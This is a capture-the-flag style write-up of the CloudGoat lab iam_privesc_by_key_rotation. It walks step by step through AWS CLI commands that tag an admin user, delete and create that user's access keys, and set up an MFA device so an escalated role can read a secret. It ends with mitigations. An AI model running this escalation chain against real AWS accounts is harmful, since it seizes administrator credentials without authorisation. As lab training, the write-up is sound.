





# 🕵️‍♂️ Chronicle of a Compromise: CloudGoat iam_privesc_by_key_rotation
Hey! In this writeup, I’m documenting my journey through the iam_privesc_by_key_rotation CloudGoat scenario. This lab is a great exercise in identifying hidden privilege escalation paths within IAM policies and understanding how tags can be weaponized to bypass security boundaries.

---

## 📋 Starting Point
The data we received at the start of the lab:

Resources: 3 IAM Users, 1 IAM Role, 1 Secret.

Starting point: IAM User "manager".

Goal: Retrieve the final flag from AWS Secrets Manager.

Summary: Exploit insecure IAM permissions to escalate access. Start with a manager role, find a weakness in the key management setup, and pivot to an "admin" identity to reach the secret.

---

## 🚀 Step 1: First Steps & Identity Validation
We start with the following credentials for the manager user:

Access Key ID: A------------------

Secret Access Key: O-----------------------

First, I configured the profile and validated my identity:

```aws configure --profile iam_privesc```
```aws sts get-caller-identity --profile iam_privesc```


## 🔍 Step 2: Permission Enumeration (The "Manager" Power)
I needed to know exactly what this manager could do. I checked both attached and inline policies:

```aws iam list-attached-user-policies --user-name manager_cgidb27jt52l01 --profile iam_privesc```

```aws iam list-user-policies --user-name manager_cgidb27jt52l01 --profile iam_privesc````

I found IAMReadOnlyAccess (Attached) and two interesting inline policies: SelfManageAccess and TagResources. Let's look inside them:

SelfManageAccess Policy:

JSON
{
    "Action": [
        "iam:DeleteAccessKey",
        "iam:UpdateAccessKey",
        "iam:CreateAccessKey"
    ],
    "Condition": {
        "StringEquals": { "aws:ResourceTag/developer": "true" }
    },
    "Effect": "Allow",
    "Resource": [ "arn:aws:iam::[ID]:user/*" ]
}

<p align="center">

</p>

TagResources Policy:

JSON
{
    "Action": [ "iam:TagUser", "iam:UntagUser", ... ],
    "Effect": "Allow",
    "Resource": "*"
}

<p align="center">

</p>

The Vulnerability: I can tag any user, and if a user has the tag developer: true, I can manage (create/delete) their Access Keys. This is a massive privilege escalation vector.

---

### 🎯 Step 3: Target Identification
I listed the users in the account to see who I could "manage":

```aws iam list-users --profile iam_privesc````

<p align="center">

</p>

We have three users: admin, developer, and manager. Obviously, my target is the admin.

I also found the goal: a role named cg_secretsmanager_[ID] that requires MFA to be assumed.

<p align="center">

</p>

---

## 🏹 Step 4: Weaponizing the Tag & Key Rotation
The plan is simple:

Tag the admin user as a developer.

Create a new Access Key for the admin.

Taging the admin:

Bash
aws iam tag-user --user-name admin_cgidb27jt52l01 --tags Key=developer,Value=true --profile iam_privesc
Creating the Access Key:

Bash
aws iam create-access-key --user-name admin_cgidb27jt52l01 --profile iam_privesc
Wait! I hit a wall: LimitExceeded. The user already has 2 Access Keys (the AWS limit). I need to rotate them.

```aws iam list-access-keys --user-name admin_cgidb27jt52l01 --profile iam_privesc```

<p align="center">

</p>

I deleted an inactive key and then created a new one:

```aws iam delete-access-key --user-name admin_cgidb27jt52l01 --access-key-id [ID] --profile iam_privesc````

```aws iam create-access-key --user-name admin_cgidb27jt52l01 --profile iam_privesc```
Bingo! I now have the admin credentials.

---

# ⛓️ Step 5: The MFA Barrier
I configured a new profile iam_admin with the stolen keys and tried to assume the secret manager role:

```aws sts assume-role --role-arn "arn:aws:iam::[ID]:role/cg_secretsmanager_[ID] --role-session-name "exploit" --profile iam_admin```

Access Denied. Why? Because of the AssumeRolePolicyDocument I saw earlier: the role requires Multi-Factor Authentication (MFA).

Since our manager user also has permissions to manage MFA devices (iam:CreateVirtualMFADevice), I proceeded to set up a virtual MFA for the admin:

```aws iam create-virtual-mfa-device \```
 ```   --virtual-mfa-device-name "ExploitDevice" \```
 ```   --outfile "QRCode.png" \```
 ```   --bootstrap-method QRCodePNG --profile iam_privesc```

By completing the MFA handshake, the admin user can finally assume the role and retrieve the secret.

---

## 🛡️ Security Analysis & Mitigation Strategies
This scenario demonstrates how logical flaws in IAM conditions can be just as dangerous as over-permissive wildcard policies.

### 1. The Danger of iam:TagUser on All Resources

The Flaw: The manager could tag any user. By allowing Resource: "*", AWS doesn't differentiate between a low-level developer and a high-privileged admin.

The Fix: Restrict the iam:TagUser action to specific ARNs or paths. Never allow a "manager" role to tag "admin" roles or users.

### 2. Conditional Bypass (Key Rotation Abuse)

The Flaw: The policy allowed managing keys based on a tag that the user could set themselves.

The Fix: Use Attribute-Based Access Control (ABAC) carefully. Ensure that the principal allowed to modify tags is not the same principal allowed to benefit from those tags.

### 3. MFA as a Strong Guardrail

The Flaw: While MFA was required to assume the role, the attacker was also able to manage MFA devices.

The Fix: Protect MFA management actions with extra layers of security (e.g., requiring an existing MFA session to create a new MFA device).

---

## 🧠 Final Thoughts
This lab was an eye-opener regarding IAM chain reactions. It taught me that an identity isn't just defined by its attached policies, but by its ability to influence other identities.

Throughout my career, I've seen many "Manager" roles with broad tagging permissions meant for administrative convenience, but as this scenario proves, convenience is often the enemy of security. If you can tag it, you might be able to own it. Real security requires strict boundaries on who can label whom in the cloud.

--- 

Writeup by MartinMarin1